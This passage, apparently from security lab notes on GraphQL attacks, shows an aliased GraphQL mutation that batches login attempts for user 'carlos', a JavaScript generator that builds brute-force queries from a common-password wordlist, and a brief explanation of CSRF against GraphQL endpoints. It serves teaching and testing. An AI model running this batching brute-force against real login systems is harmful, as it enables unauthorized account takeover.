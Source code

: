 ```
mutation {
        login1:login(input:{username:"carlos",password:"test1"}) {
            token
            success
        }login2:login(input: {username:"carlos",password:"test2"}) {
            token
            success
        }login3:login(input: {username:"carlos",password:"test3"}) {
            token
            success
        }login4:login(input: {username:"carlos",password:"test4"}) {
            token
            success
        }login5:login(input: {username:"carlos",password:"test5"}) {
            token
            success
        }
    }
```

Here we can use a js script to generate our aliases automatically:

```
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

# CSRF over GraphQL

CSRF vulnerabilities can arise where a GraphQL endpoint does not validate the content type of the requests sent to it and no CSRF tokens are implemented. 

`POST` requests that use a content type of `application/json` are secure against forgery as long as the content type is validated. In this case, an attacker wouldn't be able to make the victim's browser send this request even if the victim were to visit a malicious site. 

However, alternative methods such as `GET`, or any request that has a content type of `x-www-form-urlencoded`, can be sent by a browser and so may leave users vulnerable to attack if the endpoint accepts these requests. Where this is the case, attackers may be able to craft exploits to send malicious requests to the API. 
